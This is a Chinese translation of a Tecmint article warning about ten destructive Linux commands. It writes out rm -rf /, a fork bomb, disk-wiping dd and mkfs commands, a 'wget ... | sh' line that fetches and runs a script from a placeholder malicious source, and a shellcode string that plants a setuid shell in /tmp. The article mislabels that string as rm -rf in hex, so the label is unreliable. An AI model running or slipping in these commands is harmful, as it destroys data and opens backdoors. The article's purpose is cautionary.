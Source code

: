 永远不要在Linux执行的10个最危险的命令
================================================================================

Linux命令行佷有用、很高效，也很有趣，但有时候也很危险，尤其是在你不确定你自己在正在做什么时候。这篇文章并不打算引来你对**Linux**或**linux 命令行**的愤怒。我们只是想让你意识到在你运行某些命令时应该三思而后行。（译注：当然，以下命令通常都是在root权限下才能将愚蠢发挥到无可救药；在普通用户身份下，破坏的只是自己的一亩三分地。）

![](http://www.tecmint.com/wp-content/uploads/2013/11/Dangerous-Linux-Commands.png)

### 1. rm -rf 命令　###

**rm -rf**命令是删除文件夹及其内容最快的方式之一。仅仅一丁点的敲错或无知都可能导致不可恢复的系统崩坏。下列是一些**rm 命令**的选项。

- **rm**　命令在Linux下通常用来删除文件。
- **rm -r** 命令递归的删除文件夹，甚至是空的文件夹。（译注：个人认为此处应该是说错了，从常识看，应该是“甚至是非空的文件夹”）
- **rm -f** 命令能不经过询问直接删除‘只读文件’。（译注：Linux下删除文件并不在乎该文件是否是只读的，而只是在意其父目录是否有写权限。所以，-f这个参数只是表示不必一个个删除确认，而是一律悄悄删除。另外，原始的rm命令其实也是没有删除提示的，只是一般的发行版都会将rm通过别名的方式增加-i参数来要求删除确认，而-f则抑制了这个提示。）
- **rm -rf /** : 强制删除根目录下所有东东。（就是说删除完毕后，什么也没有了。。。）
- rm -rf *:　强制删除当前目录的所有文件。
- **rm -rf .** : 强制删除当前文件夹及其子文件夹。

从现在起，当你要执行**rm -rf**命令时请留心一点。我们可以在“**.bashrc**”文件对‘**rm**‘命令创建**rm -i**的别名，来预防用 ‘**rm**‘命令删除文件时的事故，它会要求你确认每一个删除请求。（译注：大多数发行版已经这样做了，如果还没有，请这样做，并在使用-f参数前一定考虑好你在做什么！译者本人有着血泪的教训啊。）

### 2. :(){:|:&};: 命令###

这就是个**fork 炸弹**的实例。具体操作是通过定义一个名为 ‘:‘的函数，它会调用自己两次，一次在前台另一次运行在后台。它会反复的执行下去直到系统崩溃。

    :(){:|:&};:
    

哦？你确认你要试试么？千万别在公司正式的服务器上实验啊~~

### 3. 命令　> /dev/sda ###

上列命令会将某个‘**命令**‘的输出写到块设备**/dev/sda**中。该操作会将在块设备中的所有数据块替换为命令写入的原始数据，从而导致整个块设备的数据丢失。

### 4. mv 文件夹 /dev/null ###

这个命令会移动某个‘**文件夹**‘到**/dev/null**。在Linux中 **/dev/null** 或 **null** 设备是一个特殊的文件，所有写入它的数据都会被清除，然后返回写操作成功。（译注：这就是黑洞啊。当然，要说明的是，通过将文件夹移动到黑洞，并不能阻止数据恢复软件的救赎，所以，真正的彻底毁灭，需要采用专用的软件或者手法来完成——我知道你肯定有些东西想删除得干干净净的。）

    # mv /home/user/* /dev/null

上列命令会将**User**目录所有内容移动到**/dev/null**，这意味着所有东西都被‘卷入’**黑洞　(null)**之中。

### 5. wget http://malicious_source -O- | sh ###

上列命令会从一个（也许是）恶意源下载一个脚本并执行。Ｗget命令会下载这个脚本，而**sh**会（无条件的）执行下载下来的脚本。

**注意**: 你应该时刻注意你下载包或脚本的源。只能使用那些从可信任的源中下载脚本/程序。（译注：所以，你真的知道你在做什么吗？当遇到这种需要是，我的做法是，先wget下来，然后我去读一读其中到底写了些什么，然后考虑是否执行。）

### 6. mkfs.ext3 /dev/sda ###


上列命令会格式化块设备‘**sda**’，你无疑知道在执行上列命令后你的块设备(**硬盘驱动器**)会被格式化，**崭新的!**没有任何数据，直接让你的系统达到不可恢复的阶段。（译注：通常不会直接使用/dev/sda这样的设备，除非是作为raw设备使用，一般都需要将sda分成类似sda1、sda2这样的分区后才使用。当然，无论你使用sda还是sda1，这样对块设备或分区进行mkfs都是毁灭性的，上面的数据都会被蒸发了。）

### 7. > file###

上列命令常用来清空文件内容（译注：通常也用于记录命令输出。不过请在执行前，确认输出的文件是空的或者还不存在，否则原来的文件可真是恢复不了了——连数据恢复软件都未必能帮助你了。另外，我想你可能真正想用的是“>>”，即累加新的输出到文件，而不是刷新那个文件。）。如果用上列执行时输入错误或无知的输入类似 “> **xt.conf**”　的命令会覆盖配置文件或其他任何的系统配置文件。

### 8. \^foo\^bar ###

这个命令在我们[十个鲜为人知的 Linux 命令 - Part 3][1]中描述过，用来编辑先前运行的命令而无需重打整个命令。但当用**^foo^bar**命令时如果你没有彻底检查改变原始命令的风险，这可能导致真正的麻烦。（译注：事实上，这种小技巧是译者认为的，少数史前时代遗留下来的无用而有害的“黑客”技巧。）

### 9. dd if=/dev/random of=/dev/sda ###

上列命令会向块设备**sda**写入随机的垃圾文件从而擦出数据。当然！你的系统可能陷入混乱和不可恢复的状态。（译注：记得上面说过mv到黑洞并不能彻底删除数据么？那么这个命令就是给了你一个彻底删除的方法！当然为了保险起见，你可以覆写多次。）

### 10. 隐藏命令　###

下面的命令其实就是上面第一个命令 (**rm -rf**)。这里的代码是隐藏在**十六进制**里的,一个无知的用户可能就会被愚弄。在终端里运行下面命令可能会擦除你的**根**分区。

这个命令表明通常真正的危险是隐藏的，不会被轻易的检测到。你必须时刻留心你在做什么结果会怎样。不要编译／运行从未知来源的代码。

    char esp[] __attribute__ ((section(“.text”))) /* e.s.p
    release */
    = “\xeb\x3e\x5b\x31\xc0\x50\x54\x5a\x83\xec\x64\x68″
    “\xff\xff\xff\xff\x68\xdf\xd0\xdf\xd9\x68\x8d\x99″
    “\xdf\x81\x68\x8d\x92\xdf\xd2\x54\x5e\xf7\x16\xf7″
    “\x56\x04\xf7\x56\x08\xf7\x56\x0c\x83\xc4\x74\x56″
    “\x8d\x73\x08\x56\x53\x54\x59\xb0\x0b\xcd\x80\x31″
    “\xc0\x40\xeb\xf9\xe8\xbd\xff\xff\xff\x2f\x62\x69″
    “\x6e\x2f\x73\x68\x00\x2d\x63\x00″
    “cp -p /bin/sh /tmp/.beyond; chmod 4755
    /tmp/.beyond;”;

**注意**: 不要在你的或你的同学或学校的电脑里的**Linux**终端或Shell执行以上的任何一个命令。如果你想测试它们，请在虚拟机上运行。任何不和谐或数据丢失，由于运行上面的命令导致你的系统崩溃，文章**作者**和**Tecmint**概不负责。（译注：译者和转载网站也不负责~！）

今天就到此为止吧，我会很快回来这里，同时带上另一篇你们喜欢的文章。到那时请继续关注和访问**Tecmint**。如果你知道任何其他**危险的Linux命令**，也想添加到我们的列表中，请通过评论留言给我们同时也别忘了留下你的宝贵意见。


--------------------------------------------------------------------------------

via: http://www.tecmint.com/10-most-dangerous-commands-you-should-never-execute-on-linux/

译者：[Luoxcat](https://github.com/Luoxcat) 校对：[wxy](https://github.com/wxy)

本文由 [LCTT](https://github.com/LCTT/TranslateProject) 原创翻译，[Linux中国](http://linux.cn/) 荣誉推出

[1]:http://linux.cn/article-2284-1.html


